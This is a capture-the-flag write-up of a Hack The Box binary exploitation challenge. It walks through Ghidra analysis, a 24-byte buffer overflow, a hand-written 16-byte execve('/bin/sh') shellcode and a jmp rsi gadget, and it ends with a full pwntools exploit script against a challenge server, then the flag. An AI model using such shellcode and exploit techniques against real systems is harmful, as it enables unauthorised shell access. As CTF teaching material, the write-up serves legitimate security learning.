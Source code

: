 # Assemblers Avenge

> Write-up author: jon-brandy

![image](https://github.com/user-attachments/assets/54ad889e-0ed2-4f15-892d-06264bd8d2ad)

# Lessons Learned:
- ret2shellcode.
- create custom shellcode.
- utilize `/bin/sh` strings printed.

## DESCRIPTION:

<p align="justify">Amidst the harrowing conflict, our city bore the brunt of relentless onslaughts, witnessing widespread devastation that spared little, ravaging both infrastructure and spirit alike. Now, as the dust settles and the echoes of chaos fade, a clarion call emerges: assemble a force to restore justice and herald a new era of tranquility. With the remnants of our past preserved within this binary, embark on your mission to reclaim our future. </p>

## STEPS:
1. In this challenge we are given a 64 bit binary, statically linked, and not stripped.

![image](https://github.com/user-attachments/assets/53c72f0e-8586-4923-af2b-b6011344c919)


> BINARY PROTECTIONS

![image](https://github.com/user-attachments/assets/a508e2de-1f69-414d-a4cc-b13c2bf9507b)

2. Since it is statically linked, hence the binary does not rely on external shared libraries during runtime.
3. Also notice that all the binary mitigations are off, should be easy to pwn then.
4. Decompiled the binary at ghidra and reviewed the entry, we identified three functions called, those are **_write**, **_read**, and **_exit**.

> Ghidra

![image](https://github.com/user-attachments/assets/ea12e6ab-34cd-4cb8-9c87-c96044d2dad6)

5. Reviewing the **_write** call operations, we can see what message shall be printed.

![image](https://github.com/user-attachments/assets/4a9f1b9b-20f9-48ca-b43c-55fd5015e433)

![image](https://github.com/user-attachments/assets/a4701a42-c92e-4835-9f2b-3ad25f351647)


6. Reviewing the **_read** function call, we can identify the buffer size (**_nbytes**) is 24 bytes.

![image](https://github.com/user-attachments/assets/c0755bb1-2273-42d5-9747-a7dd75d22908)

7. If you noticed, our input shall stored at RSI at this function call, which gave us a hint to utilize `jmp` instruction to rsi if we use shellcode approach.

![image](https://github.com/user-attachments/assets/60b96fbe-e6ec-4883-a53b-43c96f5d3d8f)


8. For the **_exit** function call, it just printed the goodbye message then terminate the binary.

![image](https://github.com/user-attachments/assets/10dea23c-941e-4467-8e4b-79c40bff5c82)


9. Since NX is disabled, hence let's use shellcode approach. Remembering the buffer size is 24 bytes, hence our shellcode should be at 16 bytes and the rest 8 bytes should be enough for our gadget.

> JMP RSI GADGET

![image](https://github.com/user-attachments/assets/be21d4ec-103b-446e-bb89-97233a0c77bf)

10. No need to worry about the **/bin/sh** strings, because it is printed by the binary itself and there is an interesting way to grab the strings and use it for our shellcode.

> THE PRINTED STRINGS

![image](https://github.com/user-attachments/assets/634ae450-c0a6-4a31-b83c-c34149eceac4)


11. Based on ghidra, the offset should be at `0x4020..`.

![image](https://github.com/user-attachments/assets/75900b8b-acb3-4673-ae21-db78d610a52f)

12. To identify the LSB, I used **hexdump**, then look for hex representations of **/bin/sh** strings.

``` console
┌──(scorch㉿petir)-[~]
└─$ echo "/bin/sh" | xxd -p      
2f62696e2f73680a
```

![image](https://github.com/user-attachments/assets/0345d2ee-b483-4416-91f5-d5be6b067912)


13. Great! Now let's craft our shellcode.

```asm
mov    rdi,0x402065
xor    esi,esi
xor    edx,edx
push   0x3b
pop    rax
syscall
```

#### NOTE:

```
To set zero for RSI and RDX can utilize xoring esi and edx. Because
in 64-bit mode, writing to the lower 32 bits clears the upper 32 bits
of the full 64-bit register.

Thus xor esi achieves the same effect as xor rsi. Note that using 32 bit register
is to shorten the shellcode size.
```

![image](https://github.com/user-attachments/assets/07ab3dc4-8d8c-4dcc-b788-85d6fdb68077)

14. Awesome! The size is exact enough.

> FULL EXPLOIT SCRIPT

```py
from pwn import *

exe = './assemblers_avenge'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

HOST = '94.237.62.3'
IP = 46619
sh = remote(HOST, IP)
# sh = process(exe)

sc = """
mov    rdi,0x402065
xor    esi,esi
xor    edx,edx
push   0x3b
pop    rax
syscall
"""

log.success(f'Size: {len(asm(sc))}')

rop = ROP(elf)
p = flat([
    asm(sc), # shellcode 
    0x000000000040106b # jmp rsi gadget
])

sh.sendline(p)
sh.interactive()
```

![image](https://github.com/user-attachments/assets/bbd6df21-26bf-4a1a-9aee-e7d6b54497ea)


15 Got the flag! We've pwned it.

## FLAG

```
HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_0n_t1m3}
```
